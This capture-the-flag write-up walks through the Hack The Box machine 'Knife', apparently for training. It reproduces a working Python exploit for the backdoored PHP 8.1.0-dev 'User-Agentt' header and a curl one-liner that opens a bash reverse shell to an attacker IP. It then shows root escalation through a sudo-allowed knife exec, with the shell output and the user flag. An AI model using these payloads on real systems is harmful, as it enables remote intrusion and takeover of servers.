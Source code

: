 # Knife

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6b047d79-69bf-4a4d-aec3-f51ced0790a9)


> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.10.242 --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-24 23:19 PDT
Nmap scan report for 10.10.10.242
Host is up (0.019s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be549ca367c315c364717f6a534a4c21 (RSA)
|   256 bf8a3fd406e92e874ec97eab220ec0ee (ECDSA)
|_  256 1adea1cc37ce53bb1bfb2b0badb3f684 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.65 seconds
```

1. Found 2 ports open, and the machine is running a web application with PHP version 8.1.0.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6970c5b2-6643-4afc-ae61-ce75826b97ca)


2. Turns out the PHP version is vulnerable to Backdoor RCE.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fe82c05d-6479-4eae-90d8-c06224a807d2)


3. Based from this exploit.db documentation --> `https://www.exploit-db.com/exploits/49933`, we can add **User-Agentt** at the request header to gain RCE.
4. Let's use the script provided there.

> SCRIPT FROM DOCUMENTATION

```py
# Exploit Title: PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution
# Date: 23 may 2021
# Exploit Author: flast101
# Vendor Homepage: https://www.php.net/
# Software Link: 
#     - https://hub.docker.com/r/phpdaily/php
#    - https://github.com/phpdaily/php
# Version: 8.1.0-dev
# Tested on: Ubuntu 20.04
# References:
#    - https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a
#   - https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md

"""
Blog: https://flast101.github.io/php-8.1.0-dev-backdoor-rce/
Download: https://github.com/flast101/php-8.1.0-dev-backdoor-rce/blob/main/backdoor_php_8.1.0-dev.py
Contact: flast101.sec@gmail.com

An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
The following exploit uses the backdoor to provide a pseudo shell ont the host.
"""

#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the full host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't acces tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit
```

#### NOTES:

```
Another simple way, you can use this:

Set up a python server, then run set a listener on port 1337, run this afterwards:

curl http://10.10.10.242/index.php -H "User-Agentt: zerodiumsystem(\"bash -c 'bash -i
&>/dev/tcp/10.10.14.25/1337 0>&1 '\");"
```

> RESULT

```
┌──(brandy㉿bread-yolk)-[~/machine_knife]
└─$ python3 backdoor_rce.py
Enter the full host url:
http://10.10.10.242 

Interactive shell is opened on http://10.10.10.242 
Can't acces tty; job crontol turned off.
$ ls
bin
boot
cdrom
dev
etc
home
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var

$ id
uid=1000(james) gid=1000(james) groups=1000(james)

$ whoami
james

$
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f43c6df3-d20d-4f6a-826b-9d87364c4215)


## USER FLAG

```
b18383f88c92034b8db5157c1c8c28fb
```

5. To get the root flag, let's run `sudo -l` to see the sudo permissions for james.

```
$ sudo -l 
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife

$ 
```

6. We can run a tool named knife as root, we can use this for privesc.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/75cbb401-833d-4af7-9666-a1f1ea903f24)


7. But to get privesc, we need to do reverse shell first.

> Example of we can't use knife.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/10a0cdc8-9572-43fc-9eb9-55e57162dc92)


> Getting reverse shell

![pentest-knnife](https://github.com/jon-brandy/hackthebox/assets/70703371/fdc1a609-bed9-40cd-8237-3cefd45d0479)


> Privesc moment

```
Command:

sudo /usr/bin/knife exec --exec "exec '/bin/sh -i'"
```

> RESULT

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nc -nvlp 1337
listening on [any] 1337 ...
connect to [10.10.14.25] from (UNKNOWN) [10.10.10.242] 50652
bash: cannot set terminal process group (947): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ sudo /usr/bin/knife exec --exec "exec '/bin/sh -i'"
sudo /usr/bin/knife exec --exec "exec '/bin/sh -i'"
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# 
```

